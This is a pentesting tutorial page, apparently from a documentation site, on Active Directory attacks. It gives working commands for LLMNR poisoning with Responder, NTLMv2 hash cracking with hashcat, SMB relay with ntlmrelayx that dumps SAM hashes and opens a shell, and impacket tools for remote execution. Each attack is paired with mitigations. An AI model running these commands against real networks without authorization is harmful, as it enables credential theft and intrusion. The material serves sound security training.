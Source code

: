 ```yaml
---
layout: default
title: Active Directory Attack Vectors
nav_order: 2
has_children: false
parent: Active Directory
grand_parent: Pentesting
---
```


## Active Directory Attack Vectors


### LLMNR Poisoning

- Used to identify host when DNS is failing
- Previously called NBT-NS
- When we respond to this service, it respond with a username and the hashes

![](docs/assets/Pasted%20image%2020230217230017.png)

#### Responder (Capture NTLMv2 hashes)

The first step to perform this attack is to run [responder](https://github.com/lgandx/Responder).

It could be installed with [impacket toolkit](https://github.com/fortra/impacket).

It is the first tool to launch when starting an assignment.

Example using the `eth0` interface: 
```bash
python Responder.py -I eth0 -rdwv
```

When an event occurs, we receive the information about the user performing it, including his hash.

#### Crack NTLMv2 hashes

When we retrieve the hash we are going to crack it:

```bash
hashcat -m 5600 hashes.txt rockyou.txt
```


#### LLMNR Mitigation

- Disable LLMNR and NBT-NS
- Enable Network Access Control (NAC)
- Require strong user policy (to avoid the cracking)


### SMB Relay

- Instead of cracking the hash, relay them
- Need SMB signing to be disabled
- Relayed credentatials must be admin on the targeted machine

![](docs/assets/Pasted%20image%2020230217233837.png)

#### Update responder

Updating the `Responder.conf` file by putting the `SMB` and `HTTP` value to `Off`

#### Start responder

We start responder like before, but now the SMB and HTTP server is off:

```bash
python Responder.py -I eth0 -rdwv
```

#### Find targets

Targets must have smb signing disabled, to detect hosts having this particularity, we can use nmap:

```bash
nmap --script=smb2-security-mode.nse -p445 $IP/$RANGE
```

Then we can add the lists of hosts in a file called `targets.txt`. 

#### Start the relay

Then we start the service in charge of the relay: 

```bash
python ntlmrelayx.py -tf targets.txt -smb2support
```

Once it's running, the relay will relay the hash to the other machine and if the connection is established, the SAM hashes are extracted from the host. (hashes of the local user on the computer)

##### Shell access

To update the usage to prompt a shell access we could add the `-i` option to the relay: 
```bash
python ntlmrelayx.py -tf targets.txt -smb2support -i
```

We should see log indicating that a connection is open on a port.

To connect we use netcat:

```bash
netcat 127.0.0.1 11000
```

Then we are inside the smb shell of the corresponding server. 

#### SMB relay mitigation

- Enable SMB signing on every machine (decrease speed of transfer)
- Disable NTLM authentication on the network
- Implement account tierring 
- Restrict permission to local admin

### Gaining Shell Access 

As we might have retrieve credentail from previous section, we could use metasploit and `psexec`to gain a shell access. 

We could also use part of the impacket toolkit: 
- `psexec.py`
- `smbexec.py`
- `wmiexec.py`


### References:

- [https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa) 